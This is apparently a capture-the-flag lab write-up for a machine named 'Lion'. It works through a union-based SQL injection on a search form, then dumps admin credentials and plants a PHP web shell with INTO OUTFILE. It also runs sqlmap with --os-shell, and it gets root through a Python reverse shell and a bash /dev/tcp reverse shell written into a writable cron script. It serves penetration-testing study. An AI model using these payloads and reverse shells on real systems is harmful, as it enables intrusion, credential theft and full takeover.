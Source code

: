 # Lion
![index image](../images/lion/index.webp)

## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint `/admine/includes` that contains some information, but we didn’t find anything suspicious. The Nmap scan didn’t reveal anything unusual either. There is a database and an RPC service open, but nothing significant was discovered.
<br>
![nmap image](../images/lion/nmap.webp)
![feroxbuster image](../images/lion/feroxbuster.webp)

Looking at the `/index.php` directory, we notice a search field that sends a POST request to `search.php` (the parameter used is `searchtitle`, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.
![search.php image](../images/lion/search.webp)

## Exploitation
This is an SQLi vulnerability. Therefore, we can exploit it either manually or by using SQLMap. Since my focus is on manual exploitation, I will only provide a few steps for using SQLMap. For manual exploitation, we’ll first attempt to determine the number of columns using the following query: `' order by 7 #`

After the `ORDER BY 8`, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
* Query to retrieve the current database name `' union select 1,database(),3,4,5,6,7 #`. The database name is: news.
* In the following query `' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #`, we can retrieve the tables from the database. The following tables are present: `tbladmin`, `tblcategory`, `tblcomments`, `tblpages`, `tblposts`, `tblsubcategory`. Since we have an `/admin` endpoint, we can check if we can obtain the admin password.
* For get others columns, we have `' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #`. We have the following columns: `AdminUserName` and `AdminPassword`.
* We will retrieve the results from both columns using the follow query `' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #` and `' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #`.

We have the following user/password: `admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`.
I ran it through Hash Identifier, and it’s bcrypt. I tried cracking it with Hashcat, but it didn’t work. So, let's attempt to place a shell in the `includes` directory instead.
`' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #`
![shell 1 image](../images/lion/shell1.webp)

Alright, we have a PHP shell. However, to save time, I’ll list the SQLMap commands below. Using SQLMap, we can run: 
```bash
python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste"
```
![sqlmap 1 image](../images/lion/sqlmap1.webp)

Listing the databases and the current database: 
```bash
python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --dbs --hex
``` 
```bash
python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --current-db --hex
```

As we observed manually, the admin password is hashed. Therefore, to upload a shell via SQLMap, we can use the following parameter: `--os-shell`. This option allows SQLMap to attempt to spawn an operating system shell on the target system if the SQL injection is successful.

```bash
python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shell
```

Now, we can get shell and reverse shell with python.
<br>
![sqlmap 2 image](../images/lion/shell2.webp)
![sqlmap 3 image](../images/lion/shell3.webp)
![sqlmap 4 image](../images/lion/shell4.webp)
```bash
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

## Post Exploitation
I ran `linpeas` to find potential vectors for privilege escalation. We found a `.sh` file (with misconfigured permissions) that is set to run as root in a cron job. This seems to be the likely path, but let’s examine the rest of the system to be sure.
![pos 1 image](../images/lion/pos1.webp)
<br>
![pos 2 image](../images/lion/pos2.webp)
![pos 3 image](../images/lion/pos3.webp)

There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn’t work, we can try exploiting the logrotate vulnerability as an alternative.
<br>
![pos 4 image](../images/lion/pos4.webp)

Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.
```bash
/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'
```
<br>
![pos 5 image](../images/lion/pos5.webp)
![pos 6 image](../images/lion/pos6.webp)